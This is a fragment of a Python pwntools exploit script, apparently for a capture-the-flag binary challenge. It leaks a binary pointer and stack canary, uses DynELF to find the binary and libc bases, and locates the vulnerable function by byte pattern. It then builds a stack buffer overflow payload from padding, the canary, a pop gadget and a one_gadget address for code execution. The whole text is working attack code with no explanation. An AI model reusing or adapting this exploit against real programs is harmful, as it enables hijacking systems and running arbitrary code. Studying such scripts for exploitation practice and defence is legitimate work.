 ```python
    log.failure('Pointer for binary not found')
    print(stack)
    return 1
  if not canary:
    log.failure('Canary not found')
    print(stack)
    return 1

  log.info('Possible binary ptr: ' + hex(bptr))
  log.info('Canary: ' + hex(canary))

  try:
    base = DynELF.find_base(leaker, bptr)
  except:
    log.failure('DynELF leaking base failed')
    return 1

  # 0x0000000000028487: pop r12; pop r13; ret;
  gadget_offset = 0x0000000000028487
  #one_gadget
  win_offset = 0xcbd1a

  stuff=leaker.n(base+0x1250, 0x300)

  try:
    #   15:   48 89 45 f8             mov    QWORD PTR [rbp-0x8], rax
    #   19:   31 c0                   xor    eax, eax
    #   1b:   48 c7 45 c0 00 00 00    mov    QWORD PTR [rbp-0x40], 0x0
    func_addr = base+0x1250+stuff.index(b'\x48\x89\x45\xf8\x31\xc0\x48\xc7\x45')-0x15
  except:
    log.failure('Could not find pattern for vuln function')
    # print(disasm(leaker.n(base+0x1250, 0x200)))
    return 1

  # Leak vulnerable function
  code = leaker.n(func_addr, 200)

  # Extract buffer size
  size = leaker.n(func_addr+0x8, 4)[-1]

  # Extract number of bytes read
  # 7b:   ba 33 00 00 00          mov    edx, 0x33
  read_n = code[code.index(b'\xba')+1]

  # Check if overflow sufficient
  if read_n < size-8 + 8 + 8 + 2*8+ 8:
    # buf + canary + rbp + gadget + 2*p64(0) + one_gadget
    log.failure('Overflow is not sufficient')
    return 1

  # Find libc base
  d    = DynELF(leaker, base)
  libc = d.lookup(None, 'libc.so')

  # Build exploit
  ret  = b''
  ret += b'A'*(size-8)
  ret += p64(canary)
  ret += b'A'*8
  ret += p64(libc + gadget_offset) 
  ret += p64(0)*2
  ret += p64(libc + win_offset)

```